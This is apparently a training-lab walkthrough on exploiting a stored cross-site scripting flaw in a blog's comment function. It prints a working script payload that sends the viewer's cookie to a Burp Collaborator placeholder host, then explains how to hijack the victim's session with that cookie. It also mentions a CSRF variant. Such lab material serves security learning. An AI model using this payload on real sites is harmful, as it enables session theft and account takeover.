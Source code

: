 # Lab 4: Exploiting cross-site scripting to steal cookies

## 📝 Lab Overview

A **stored XSS vulnerability** exists in the blog comment function. When a **simulated victim** views the comment, your malicious JavaScript executes. By exfiltrating their session cookie, you can **impersonate** the victim and access their account.

---

## 🚨 Important Notes

- 🚫 The platform firewall **blocks external interactions** — use **Burp Collaborator's default public server** only.
- 🛠️ There is a **less subtle alternative** method involving CSRF + cookie disclosure, but it's not recommended.

---

## 🛠️ Solution Steps

### 🔗 1. Get Burp Collaborator Payload

- Open **Burp Suite Professional**
- Go to the **Collaborator tab**
- Click **"Copy to clipboard"** to copy your unique **Collaborator subdomain**

---

### 💬 2. Submit the XSS Payload

Post a **comment** with the following payload (replacing `BURP-COLLABORATOR-SUBDOMAIN`):

```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
});
</script>

```

🧠 **How it works:**

When the victim views the comment, the script sends a `POST` request containing their cookie to your **Collaborator subdomain**.

---

### 📡 3. Capture the Cookie

- Go back to the **Collaborator tab**
- Click **"Poll now"**
- ✅ You should see an **HTTP interaction**
- Copy the **session cookie value** from the POST body

---

### 🧪 4. Hijack the Victim's Session

- In Burp, intercept a request to the **main blog** page or `/my-account`
- Replace **your session cookie** with the **victim’s cookie**
- Forward the request
- ✅ If successful, you’ll see the **admin user’s account page**

🎯 **This solves the lab!**

---

## 🔁 Alternative (Less Recommended)

Use the XSS to post the victim's cookie into another comment via **CSRF**.

⚠️ **Downsides:**

- Exposes the cookie publicly
- Leaves evidence of the attack

---

## 🎥 Community Solution

📺 [Watch on YouTube](https://youtu.be/N_87S9XVy0w)